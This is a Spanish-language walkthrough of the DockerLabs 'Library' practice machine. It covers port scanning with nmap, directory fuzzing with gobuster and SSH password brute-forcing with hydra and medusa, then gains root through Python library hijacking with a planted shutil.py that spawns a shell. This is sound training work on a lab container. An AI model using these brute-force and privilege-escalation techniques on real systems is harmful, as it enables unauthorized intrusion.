 Lo primero que tenemos que hacer, es ir a la pagina de "dockerlabs.es" y bajarnos la maquina "Library".
Una vez hecho y COMO SIEMPRE, descomprimimos el archivo, e inicializamos la maquina con el comando:
```
sudo bash auto_deploy.sh library.tar
```
Lo primero de todo, tras desplegarse la maquina, es hacer un NMAP. No necesitamos hacer un ARP-SCAN (o NETDISCOVER), porque ya sabemos la IP de la maquina victima.
```
nmap -p- --open -sCV -sS --min-rate 5000 172.17.0.2 -n -Pn -vvv
```
Una vez terminado, vemos que tiene dos puertos abiertos: el 22 (SSH) y el 80 (HTML)
```
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
```
Como no tenemos ni usuario ni contraseña aun para atacar el puerto 22, vamos a probar poniendo la direccion IP en el navegador.
Sin embargo, aparece la tipica pagina de Apache, por lo que vamos a empezar haciendo un poco de FUZZING WEB con "gobuster":
```
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x txt,php,html -t 20
```
Y vemos que nos devuelve la siguiente informacion:
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 26]
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 10671]
/javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1453501 / 1453508 (100.00%)
===============================================================
Finished
===============================================================
```
Si nos fijamos, hay un "/index.php" y un "/index.html" lo cual es curioso, asi que vamos a probar con ambos a ver que nos encontramos.
Con "/index.html" no hay nada interesante, ya que nos deja en la misma pagina que antes, pero con "/index.php", la cosa cambia ya que nos sale una cadena de caracteres:
```
JIFGHDS87GYDFIGD
```
Bien, probaremos entonces con fuerza bruta e HYDRA/MEDUSA para ver si podemos obtener el nombre de algun usuario, usando esta cadena de caracteres como "password":
```
HYDRA:
hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p JIFGHDS87GYDFIGD ssh://172.17.0.2

MEDUSA:
medusa -h 172.17.0.2 -U /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p JIFGHDS87GYDFIGD -M ssh
```
Vemos que hay un usuario que se llama "carlos" y cuya contraseña es la que hemos puesto antes: "JIFGHDS87GYDFIGD"
```
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: carlos   password: JIFGHDS87GYDFIGD
[STATUS] 306.00 tries/min, 306 tries in 00:01h, 8295150 to do in 451:49h, 15 active
```
Es momento de probar a entrar por SSH a ver si hay suerte:
```
ssh carlos@172.17.0.2
```
y tras darle que "yes" a las fingerprints e introducir la contraseña, ya estamos dentro:
```
carlos@c6c871fec19b:~$ whoami
carlos

carlos@c6c871fec19b:~$
```
En este momento, nos toca intentar hacer una escalada de privilegios con "sudo -l":
```
carlos@c6c871fec19b:~$ sudo -l

Matching Defaults entries for carlos on c6c871fec19b:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User carlos may run the following commands on c6c871fec19b:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
    
carlos@c6c871fec19b:~$
```
Bien, vamos a probar a hacer un pequeño "cat" a ese archivo "script.py" a ver que obtenemos:
```
cat /opt/script.py


import shutil

def copiar_archivo(origen, destino):
    shutil.copy(origen, destino)
    print(f'Archivo copiado de {origen} a {destino}')

if __name__ == '__main__':
    origen = '/opt/script.py'
    destino = '/tmp/script_backup.py'
    copiar_archivo(origen, destino)

```
Aqui podemos observar algo MUY curioso. Si nos fijamos en ese "import shutil", vemos que NO esta con su ruta absoluta.

-Vale, bien... y ¿que quiere decir esto?

-Pues quiere decir que como Python SIEMPRE busca primero en la carpeta donde se encuentra el archivo ".py", pues este ira a comprobar si existe esa libreria primero en la carpeta "/opt/" que es donde se encuentra el "script.py"

-¿Y.... ?

-Y... eso quiere decir que podemos intentar un "Python Library Hijacking".

-Ya... pero, ¿eso que es?

-Pues el metodo de explotación de “Python Library Hijacking”, consiste en suplantar una libreria de Python, que un binario este usando, para inyectar codigo de forma que el atacante escale privilegios y/u obtenga una "shell" en el sistema.

En este caso en concreto, lo que hariamos seria crear nuestro propio archivo "shutil.py", el cual dejaremos dentro de la carpeta "/opt/" y cuyo contenido sea:
```
import os
os.system("bash")
```
Una vez, hecho esto con "nano", por ejemplo, solo nos quedaria lanzar el "script.py" con el comando:
```
sudo python3 /opt/script.py  <== Ponemos SIEMPRE la ruta absoluta
```
Si ahora escrimos "whoami", veremos que hemos pasado de ser el usuario "carlos" a ser directamente el usuario "root":
```
carlos@c6c871fec19b:/opt$ sudo python3 /opt/script.py

root@c6c871fec19b:/opt# whoami
root

root@c6c871fec19b:/opt#
```
Y listo, la maquina estaria terminada.



